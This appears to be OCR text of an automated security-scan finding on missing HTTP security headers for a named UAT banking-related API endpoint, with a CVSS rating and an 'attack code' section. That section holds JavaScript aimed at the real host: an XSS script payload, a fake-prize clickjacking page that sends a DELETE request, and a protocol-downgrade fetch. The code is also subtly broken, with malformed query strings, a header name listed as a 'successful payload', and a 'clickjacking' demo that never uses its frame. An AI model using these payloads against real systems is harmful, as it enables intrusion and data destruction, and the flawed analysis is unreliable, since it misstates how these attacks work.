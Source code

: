 
### 2. Security Headers Vulnerability

**🎯 Target:** `https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false`

**📝 Description:** Missing security headers expose the application to various attacks including XSS, clickjacking, and protocol downgrade attacks.

**💥 Impact:** XSS, clickjacking, protocol downgrade, MIME confusion attacks, information disclosure

**🔍 CVSS Score:** 6.5 (Medium)

**📊 CVSS Details:**
- **Attack Vector:** Network
- **Complexity:** Low
- **Privileges Required:** None
- **User Interaction:** Required
- **Scope:** Unchanged
- **Confidentiality:** Low
- **Integrity:** Low
- **Availability:** None

**🔴 Priority:** Medium - Within 1 month

**🎯 Successful Payloads:**
1. `X-Frame-Options`

**⚔️ Attack Code (How to Simulate):**
```javascript
// Security Headers Attack Code
// 1. XSS Attack (if CSP missing)
const xssPayload = "<script>alert('XSS')</script>";
fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false?q=" + encodeURIComponent(xssPayload));

// 2. Clickjacking Attack (if X-Frame-Options missing)
const clickjackingPage = `
<!DOCTYPE html>
<html>
<head><title>Free Prize!</title></head>
<body>
    <h1>🎁 Click for free prize!</h1>
    <iframe src="https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false" style="opacity:0.1; position:absolute; top:50px; left:50px;"></iframe>
    <button onclick="triggerDelete()" style="position:absolute; top:50px; left:50px; z-index:1000;">
        🎁 CLAIM PRIZE
    </button>
    <script>
        function triggerDelete() {
            fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false", {method: "DELETE"});
        }
    </script>
</body>
</html>`;

// 3. Protocol Downgrade (if HSTS missing)
// Attacker intercepts HTTPS and forces HTTP
fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false".replace('https://', 'http://'));
```
